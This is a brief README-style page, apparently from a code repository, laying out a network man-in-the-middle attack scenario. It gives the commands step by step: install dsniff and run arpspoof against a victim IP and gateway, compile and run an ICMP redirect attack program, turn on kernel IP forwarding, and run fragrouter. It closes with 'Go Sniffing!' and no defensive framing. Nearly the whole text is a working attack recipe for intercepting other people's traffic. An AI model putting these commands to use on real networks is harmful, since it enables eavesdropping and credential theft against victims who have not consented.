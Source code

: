 ##Scenario

#arpredirect
$ sudo apt-get install dsniff
$ arpspoof -i <eth0> -t <Victim IP> <Victim Gateway IP>

#icmpredirect

$ gcc -o icmp_redir_att icmp_redir_att.c
$ ./icmp_redir_att <Victim Gateway IP> <Victim IP> <Des Victim;DNS?> <MyIP>

#Packet Routing
 
Kernel based Routing
$echo 1 > /proc/sys/net/ipv4/ip_forward
 
Application based Routing
$fragrouter -B1


The End! Go Sniffing!

icmpredirect, It is impossible for newest OS.
